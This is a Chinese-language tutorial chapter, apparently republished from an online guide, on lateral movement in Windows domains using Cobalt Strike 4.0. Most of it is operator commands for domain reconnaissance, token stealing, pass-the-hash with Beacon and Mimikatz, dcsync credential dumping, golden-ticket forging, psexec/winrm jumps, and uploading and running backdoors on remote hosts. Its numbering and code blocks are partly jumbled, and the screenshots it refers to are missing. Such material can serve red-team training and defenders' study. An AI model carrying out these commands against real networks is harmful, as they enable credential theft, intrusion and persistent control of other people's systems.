










# 8\. Lateral Movement(横向移动)

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike 4.0/8.Lateral Movement/8.Lateral Movement.html](http://book.iwonder.run/Tools/Cobalt Strike 4.0/8.Lateral Movement/8.Lateral Movement.html)

> windows 内网渗透步骤：

1.  ### 收集目标主机和用户信息：

2.  哪些系统是我可以进行攻击的
3.  这些系统的哪些用户有管理员权限
4.  使用已有的可信凭据去获取管理员权限
    可信凭据：
5.  access tokens
6.  Password Hashes
7.  Credentials
8.  Kerberos Tickets
9.  进行攻击
10.  窃取文件
11.  执行命令
12.  执行某些 payload
13.  提取更多的可信凭据然后重复上述步骤

    ## 0x01 Windows Enterprise（windows 企业局域网）

14.  `Active Directory`是用来管理域内用户、系统及策略配置的一个服务，以下简称`AD`
15.  `Domain`（域）是一个管理员也是一个网络边界，在这里的用户和系统都是通过 AD 来管理的
16.  `Domain Controller`（域控制器）用来管理 AD 内的用户和系统，它是域内权利最大的系统。
17.  `Local User`（本地用户）：一个本地系统/主机上的标准用户，可以这样在 Cobal Strike 上这样来输入：`.\user`或者`COMPUTER_NAME\user`
18.  `Domain User`（域用户）：域用户是域控制器下的用户帐户，这些账户的详细名称是`DOMAIN\user`
19.  `Local Administrator`：一个本地系统/主机上的有系统管理权限的用户
20.  `Domain Administrator`（域管理员）：是一个在域控上拥有管理员权限的用户，是域上所有事情的本地管理员

## 0x02 Reconnaissance（侦查）

域环境通常会针对不同的权限级别设置不同的信任关系，找出哪些是受信任的域、你可以登录哪些域、存放数据的位置

### 使用 Cobalt Strike 收集域内信息

*   windows command

    ```
    # 查看当前网络内的域信息
    net view /DOMAIN 
    # 查找域控，结果输出域控机器上的用户名
    # 32 位 beacon 需要在 console 上输入完整的 nltext.exe 路径来执行
    nltest /dclist:[DOMAIN]
    net group "Domain Controllers" /DOMAIN
    # 查看域内主机信息
    net view /DOMAIN:[DOAMIN] # 依赖于 computer browser 服务，如果服务未开启，那么将没有结果输出
    net group "Domain Coputers" /DOMAIN
    # NetBIOS 名称在域上是每台机器的完整名称
    # 将 NetBIOS Name 转换为 IP 地址
    # NetBIOS Name 举例 DESKTOP-ABCD123
    nslookup [NetBIOS Name]
    ping -n  1 [NetBIOS Name]
    # 获取域上的信任关系
    nltest /domain_trusts
    nltest /server:[address] /domain_trusts
    # 列出主机上的共享
    net view \\[name] 
    ```

*   net module：通过调用 windows API 来执行命令

    ```
    # 在 beacon console 执行命令:
    # 查看域信息
    beacon> net domain  
    # 查找域控
    beacon> net dclist [DOMAIN]
    beacon> net domain_controllers [DOMAIN]
    # 查看域内主机信息
    beacon> net view [DOMAIN] # 与上文的 windows 命令直接结果一致
    beacon> net computers [DOMAIN.FQDN] # 与上文的 net group 命令结果一致，但会额外输出主机的 IP 信息 
    ```

    在 Beacon console 执行完查看结果后，可以点击`target`图标显示你查找到的域控主机
*   PowerView

    ```
    # 导入 powershell 脚本
    beacon> powershell-import /本地路径/PowerView.ps1
    # 查看域信息
    beacon> powerpick Get-NetDomain
    # 查找域控
    beacon> powerpick Get-NetDomainController
    # 查看域内主机信息
    beacon> powerpick Get-NetComputer 
    ```

*   SharpView .net 实现的 PowerView 功能的脚本

### 获取管理员权限

当我们有了管理员权限之后，我们可以操作计划任务、与 C 盘进行交互、管理进程等等。域控的管理员可以作为任何一台域内主机的管理员进行操作。如果你想检查你当前的用户是否有管理员权限，可以在 beacon 上执行`ls \\hosts\C$`查看是否允许访问 C 盘目录，也可以使用 Powerview 的`powerpick Find-LocalAdminAccess`来查看用户权限。

**举例：**
域：`corp.acme.com`
powershell 执行结果：`fileserver.corp.acme.com`
`ls \\fileserver\C$`：输出该服务器上的 C 盘目录

1.  查找域控管理员

    ```
    # 使用 run 执行 windows 系统命令
    net group "enterprise admins" /DOMAIN
    net group "domain admins" /DOMAIN
    net localgroup "administrator" /DOMAIN
    # 使用 Beacon 的 net 模块
    net group \\DC Domain Admins
    net localgroup \\DC Administrators 
    ```

2.  本地管理员
    本地管理员用户一定是在本地的管理员组中的，这个用户也可能是一个域用户 ```shell

    # beacon net module

    net localgroup \TARGET net localgroup \TARGET group_name

    # 如 net localgroup \TARGET administrators

# powerview

# 针对一台主机进行查询

powershell Get-NetLocalGroup -HostName TARGET

# 针对多台主机进行查询

powershell Invoke-EnumerateLocalAdmin

```
> 注意：Window10 RS1(2016)和 Windows Server2016 要求在查询本地组时需要使用管理员权限，若需要查看那么需要先打一个补丁

如果你有一个本地账户的密码或者密码哈希，如果这个用户是 RID500（系统用户，比如 Administrator、Guest 等）且账户未被禁用，那么你可以在认证后执行远程操作。如果你拥有密码的用户是一个非 RID500 的用户，那么将不能进行认证以进行远程操作，除非你可以通过远程桌面登录。
## 0x03 Agentless Post Exploitation
在获取到一台主机的权限后，不建议再传递 payload 去执行各种操作。可以采取如下办法：
- 使用 UNC 路径来引用其他主机上的文件
```shell
# 从指定的目标主机上列举文件
shell dir \\host\C$\foo
# 拷贝远程主机上的文件到本地
shell copy \\host\C$\foo\secrets.txt
# 将执行 dir /S /B 的结果保存至文件中
shell dir /S /B \\host\c$ > files.txt 
```

使用 Beacon 的`File Browser`上的地址栏查看文件 

*   使用 WinRM 来执行命令

    ```
    # 使用 powershell
    powershell Invoke-Command -ComputerName TARGET -ScriptBlock {要执行的命令}
    # 通过 WinRM 使用 PowerSploit 来运行 Mimikatz
    powershell-import /path/Invoke-Mimikatz.ps1
    powershell Invoke-Mimikatz -ComouterName TARGET
    # Mimikatz 有 32 位和 64 位的，建议不要使用 32 位的，另外 Mimikatz 需要将$PEBytes32 重新修改为空 
    ```

    PowerSploit 可参考[https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

*   使用`dcsync`来提取用户哈希，可以在`Credentials`面板上看到提取到的 hash

    ```
    dcsync [domain]  [DOMAIN\user]
    dcsync [domain] 
    ```

    

    ## 0x04 Trust Material

*   access token

    > windows 的每个用户登录系统后，系统都会生成一个 access token，用户登录后创建的每一个进程都含有该用户的 access token 的备份，当进程试图执行某些需要特殊权限的操作或者访问受保护的内核对象时，系统会检查其 access token 中的权限信息以决定是否授权操作。Administrator 用户组成员的 access token 中会含有一些可以执行系统级操作的特权，但是这些特权默认是被禁用的，如果需要进行特权操作，那么进程则必须打开这些禁用的特权，即权限提升。
    > 参考 [https://blog.csdn.net/zxh2075/article/details/8621821](https://blog.csdn.net/zxh2075/article/details/8621821)

```
# 查看进程列表
ps
# 窃取 token
steal_token [pid]
# 查看你拿到的 token 所关联的用户
getuid
# 返回到控制目标主机的初始的 token
rev2self 
```

示例：
（1）beacon 右键 interact
（2）右键 > Explore > Process List，可以看到哪些 process 的 token 是可获得的

然后 Beacon 就会执行`steal_token 3716`，接着我们就有了这个`jim.stevens`的权限了

执行`getuid`和`rev2self`：


1.  credentials（凭据）
    如果你有目标主机管理员用户的用户名和它的密码，你可以这样做

    ```
    # 创建一个 beacon 
    spawnas DOMAIN\user password
    # 通过 make_token 命令来创建 token 以传递凭据
    make_token DOMAIN\user password
    # 当你提供的用户名或者密码有误时，你对远程主机进行的任何操作都会报错
    # make_token 命令执行后会拷贝你当前使用的 token，然后给出一个新的 logon session 
    ```

    
    

2.  password hashes(PTH)

3.  使用 Beacon 传递 hash

    ```
    pth DOMAIN\user ntlmhash 
    ```

    首先我们需要基于你提供的 hash 创建一个带有 access token 的进程，Beacon 会通过 steal_token 获取到这个临时进程的 access token。

在进行这个过程中，会使用到 cmd.exe 回传 token 到 Beacon，还会对内存进行读取操作，`pth`命令需要你在一个有权限的环境下使用。通过 cmd.exe 执行命令动作比较大，不建议使用 pth 命令。使用 rundll32.exe 创建 64 位进程可能会出问题，建议使用 dllhost.exe。

```
spwanto x64 c:\windows\system32\dllhost.exe 
```

举例说明：
（1）ntlm hash：

（2）pth


*   使用 Mimikatz 传递 hash

    ```
    mimikatz sekurlsa::pth /user:用户名 /domain:域名 /ntlm:哈希 /run:"powershell -w hidden"
    steal_token pid 
    ```

    
    当你通过 Beacon 获取到这个 access token 后，之后进行的操作仍然会通过这个进程来执行。

1.  kerberos tickets
    `Kerberos`是一个通过密钥系统为客户机 / 服务器应用程序提供强大的认证服务，具体此处不再详述。我们可以通过 Kerberos tickets 来进行认证登录到服务器


```
# Beacon console 执行
# 查看本地存储的 Kerberos tickets
run klist
# 清除票据
kerberos_ticket_purge
# 加载票据
kerberos_ticket_use [/path/file.ticket] 
```

伪造黄金票据（Golden Ticket，即上图的 ST）

*   需要知道用户名和域名称：执行`net domain`
*   域 SID：执行`whoami /user`，丢掉最后一段数即可，可参考下图
*   域控上的 krbtgt 用户的 NTLM hash：用`dcsync`导出

这个票据实际上仅仅只能有效几个小时，使用 klist 查看票据可看到票据的`end time`，即为有效时间


beacon 右键 > `Access` > `Golden Ticket`



另外你在使用`BIOS Name`、`Domain Name`、`IP address`访问主机时，会影响你使用凭据进行认证的结果

## 0x05 Remote Code Execution

### 1\. 横向移动自动化工具

targets 列表 右键 > jump > 某一个 module

```
# 通过某个模块连接至某个主机
jump [module] [target] [listener] 
```

| 模块 | 架构 | 描述 |
| --- | --- | --- |
| psexec | x86 | 通过一个新的服务运行一个 exe 服务 |
| psexec64 | x64 | 通过一个新的服务运行一个 exe 服务 |
| psexec_psh | x86 | 通过一个新服务来运行 powershell 一句话，从而运行管道绑定 stager |
| winrm | x86 | 通过 WinRM 执行 powershell 脚本 |
| winrm64 | x64 | 通过 WinRM 执行 powershell 脚本 |

使用 wirm64

等同于执行`jump winrm64 FILESERVER local - smb`

### 2\. 执行自定义后门程序

1.  与你的目标建立信任关系
2.  生成一个适合的后门
    Attack > Packages　> Windows executable(s)
    建议使用 stageless 类型的后门
    后门可以是以下形式
3.  windows exe 作为系统服务
4.  windows exe 程序
5.  dll 等
    使用 tcp Beacon 或者 smb beacon 类型的 payload
6.  上传后门到目标主机上
    可以使用`File Browser`，通过输入 UNC 共享目录来上传文件。也可以使用命令上传：

    ```
    cd \\host\C$\windows\temp
    upload /path/file.exe 
    ```

7.  在目标主机上运行这个后门

    ```
    # 查看在 Cobalt Strike 中注册的远程执行模块的列表
    remote-exec
    # 在一个远程主机上执行命令
    # psexec、winrm（powershell）、wmi（powershell）
    remote-exec [method] [target] [command] 
    ```

    
8.  通过后门进行控制
    成功执行后可以通过`link`和`connect`连接到 Beacon

## 0x06 注意事项

1.  当你第一次连接到 session 时，你的认证信息可能会不起作用，需要使用`make_token`来复制你的 access token 填充至凭据中。
2.  如果当你在进行 make_token 或者 steal_token 时，你不能够运行进程，或者你看不到输出结果时，可以使用`inject`迁移到另一个进程中进行执行，或者使用`elevate svc-exe`来作为系统运行 payload。

